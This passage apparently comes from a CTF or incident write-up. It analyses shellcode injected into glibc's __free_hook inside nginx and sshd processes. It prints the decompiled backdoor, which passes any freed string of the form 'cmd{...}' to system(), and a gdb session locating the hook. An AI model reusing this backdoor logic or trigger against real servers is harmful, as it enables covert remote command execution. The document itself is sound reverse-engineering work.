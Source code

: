 We can load the shellcode in a disassembler like Binary Ninja and rename the symbols (`\x41\x41\x41\x41\x41\x41\x41\x41`, ...) to the functions they refer to (see calls to the `replace_addr` function in the script). Using the HLIL view, we end-up with the following code.

```c
0001001d  char* rbx = arg1
00010021  int64_t rax
00010021  int64_t rcx
00010021  rax, rcx = malloc_usable_size()
00010023  int64_t rbp = rax
00010030  *__free_hook = 0
0001003b  for (; rbp u> 5; rbp = rbp - 1)
0001004e      if (*rbx == 0x63 && (*(rbx + 1) == 0x6d && (*(rbx + 2) == 0x64 && *(rbx + 3) == 0x7b)))
00010054          *rbx = 0
00010057          void* rdi = rbx + 4
0001005b          int64_t rdx = rbp - 4
0001005f          void* rax_1 = rdi
00010062          while (true)
00010062              rcx.b = *rax_1
00010064              rbx = rax_1
00010067              rbp = rdx
0001006a              rax_1 = rax_1 + 1
0001006e              rdx = rdx - 1
00010072              uint64_t rsi = zx.q((rcx - 0x20).d)
00010079              if (rsi.b u> 0x5e)
00010079                  break
00010080              if (rcx.b == 0x7d)
00010080                  *rbx = 0
00010083                  system(rdi, rsi, rdx, rcx)
00010086                  break
0001008e              if (rdx == 1)
0001008e                  rbp = 1
00010093                  rbx = rax_1
00010093                  break
00010096      rbx = rbx + 1
000100ab  free(arg1)
000100b7  *__free_hook = 0x5555555555555555
000100c8  return arg3
```

This indicates us that the first argument of the hook (in `rdi`) should point to a string starting with `cmd{` and that everything until a `}` is passed to `system()`.

Let's check using `gdb` if we can spot the shellcode at `__free_hook` address in either `nginx` or `sshd`:

```console
root@injector-local:~# ps aux | grep nginx
root         379  0.0  0.3  58096  1524 ?        Ss   19:13   0:00 nginx: master process /usr/sbin/nginx -g daemon on; master_process on;
www-data     380  0.0  1.0  58692  5228 ?        S    19:13   0:00 nginx: worker process
root        1325  8.0  0.1   6284   932 ttyS0    S+   19:16   0:00 grep --color=auto nginx
root@injector-local:~# gdb -p 380
(gdb) print __free_hook
$3 = (void (*)(void *, const void *)) 0x7f0cd6ac7f37
(gdb) x /10i 0x7f0cd6ac7f37
   0x7f0cd6ac7f37:	movabs $0x7f0cd69ce260,%rax <-- shellcode beginning
   0x7f0cd6ac7f41:	push   %r13
   0x7f0cd6ac7f43:	movabs $0x7f0cd69853c0,%r13
   0x7f0cd6ac7f4d:	push   %r12
   0x7f0cd6ac7f4f:	mov    %rdi,%r12
```
